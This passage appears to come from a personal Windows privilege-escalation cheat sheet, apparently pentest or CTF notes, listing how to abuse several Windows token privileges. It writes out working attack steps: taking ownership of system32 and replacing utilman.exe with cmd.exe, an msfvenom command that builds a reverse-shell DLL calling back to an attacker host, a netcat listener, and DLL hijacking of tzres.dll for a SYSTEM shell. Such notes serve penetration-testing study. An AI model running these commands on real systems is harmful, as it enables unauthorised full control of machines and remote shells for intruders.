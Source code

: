 ### SeTakeOwnershipPrivilege

Vulnerability identikit:
- `SeTakeOwnershipPrivilege` privilege for current user

Exploitation:
1. `takeown.exe /f "%windir%\system32"`
2. `icacls.exe "%windir%\system32" /grant "%username%":F`
3. rename `cmd.exe` to `utilman.exe`
4. lock the console and type Win+U

### SeManageVolumePrivilege

Vulnerability identikit:
- `SeManageVolumePrivilege` privilege for current user

Exploitation:
1. cloning [https://github.com/xct/SeManageVolumeAbuse](https://github.com/xct/SeManageVolumeAbuse)
2. compiling project with Visual Studio
3. upload on target these files:
	- SeManageVolumePrivilege.exe
	- `tzres.dll`: `msfvenom -p windows/<x64 o x86>/shell_reverse_tcp LHOST=<IFACE> LPORT=80 -f dll -o tzres.dll`
4. exploitation
	- running `.\SeManageVolumePrivilege`: exploit allows us to get read/write access to all files on disk
	- to get a reverse shell with `SYSTEM` privileges we have 3 options:
	1. DLL Hijacking - *tzres.dll*
		- (attacker) `rlwrap nc -nvlp <REV PORT>`
		- `copy tzres.dll C:\Windows\System32\wbem\tzres.dll`
		- `systeminfo`
	2. *[WerTrigger](#WerTrigger)*
	3. DLL Hijacking - *Printconfig.dll*: details in [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

### SeAssignPrimaryTokenPrivilege

Vulnerability identikit:
- `SeAssignPrimaryTokenPrivilege` privilege for current user
- Exploitation:
	- info: [https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html](https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html)
	- using [Juicy Potato](#JuicyPotato) or [Rogue Potato](#RoguePotato)

### SeLoadDriverPrivilege

Vulnerability identikit:
- `SeLoadDriverPrivilege` privilege for current user. It provides privilege to load a (vulnerable) driver

Very complex exploitation. I rely on this reference: [https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system](https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system).
